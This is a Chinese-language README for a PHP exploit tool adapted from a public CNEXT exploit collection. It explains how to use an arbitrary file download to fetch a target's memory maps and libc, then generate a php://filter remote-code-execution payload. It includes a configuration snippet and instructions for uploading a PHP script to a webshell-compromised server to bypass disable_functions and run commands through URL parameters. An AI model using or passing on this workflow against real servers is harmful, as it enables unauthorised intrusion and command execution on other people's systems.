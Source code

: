 # php-filter-iconv
修改自
https://github.com/ambionics/cnext-exploits

##php-filter-iconv.py用法
通过任意文件下载获取目标的/proc/self/maps和libc-2.x.so，在本机和php-filter-iconv.py放在同目录，然后运行脚本即可生成php://filter/的RCE payload，详细参数调整如下代码即可。
```
.......
maps_path = './maps'
cmd = 'echo 123 > 1.txt'
sleep_time = 1
padding = 20

if not os.path.exists(maps_path):
    exit("[-]no maps file")

regions = get_regions(maps_path)
heap, libc_info = get_symbols_and_addresses(regions)

libc_path = libc_info.path
print("[*]download: "+libc_path)

libc_path = './libc-2.23.so'
.......
```

##php-filter-iconv.php用法

直接上传到已经获得webshell的服务器进行bypass disable_functions，然后访问如下链接检测环境

/php-filter-iconv.php?cmd=curl 127.0.0.1:8888&run=0

然后访问如下链接进行命令执行，一切顺利命令会执行成功，服务器会延时几分钟报503

/php-filter-iconv.php?cmd=curl 127.0.0.1:8888&run=1

